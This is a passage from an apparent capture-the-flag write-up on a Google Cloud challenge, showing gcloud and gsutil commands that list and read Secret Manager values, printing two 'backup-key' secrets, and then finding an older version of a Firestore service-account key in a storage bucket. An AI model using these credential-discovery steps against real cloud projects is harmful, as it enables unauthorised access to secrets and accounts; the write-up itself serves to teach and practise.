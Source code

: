 Among the app dependencies listed in the `cloud vault-dev-files/package.json` file we spot a couple interesting ones in `@google-cloud/secret-manager` and `firebase-admin`. Let's focus on `secret-manager` first. The [Secret Manager](https://cloud.google.com/nodejs/docs/reference/secret-manager/latest) library allows access to Google Cloud secrets from NodeJS applications; this suggests that there might be secrets defined in the GCP project. We try listing them:

```bash
gcloud secrets list --project ctfs-417807

NAME        CREATED              REPLICATION_POLICY  LOCATIONS
backup-key  2024-04-30T03:59:43  automatic           -
```

A secret named `backup-key` is found. Let's list all the available versions:

```bash
gcloud secrets versions list backup-key --project ctfs-417807

NAME  STATE    CREATED              DESTROYED
2     enabled  2024-04-30T04:00:17  -
1     enabled  2024-04-30T03:59:45  -
```

Two enabled versions exists. Let's view both:

```bash
gcloud secrets versions access --secret=backup-key --project ctfs-417807 1
mi@u7eij3Wae4

gcloud secrets versions access --secret=backup-key --project ctfs-417807 2
SRe6TCDV0eo
```

We take note of the secret values and continue inspecting the code. The `cloudvault-dev-files/config/db.js` file defines a Firestore object and exports it as `db`. This suggests that [Firestore](https://firebase.google.com/docs/firestore) may be used to hold account data for authentication.

```javascript
const { initializeApp, applicationDefault, cert } = require('firebase-admin/app');
const { getFirestore, Timestamp, FieldValue } = require('firebase-admin/firestore');

const serviceAccount = require('./firestore.json');
    
initializeApp({
    credential: cert(serviceAccount)
});

const db = getFirestore();

module.exports = db;
```

A service account identified by the `firestore.json` key is used to access the Firestore database. Back to the storage bucket, we list all available file [versions](https://cloud.google.com/storage/docs/object-versioning) in the `config` directory by adding the `-a` option to the `ls` command:

```bash
gsutil ls -a gs://cloud-vault-assets/cloudvault-dev-files/config/ 
gs://cloud-vault-assets/cloudvault-dev-files/config/db.js#1714402948273829
gs://cloud-vault-assets/cloudvault-dev-files/config/firestore.json#1714402948237947
```
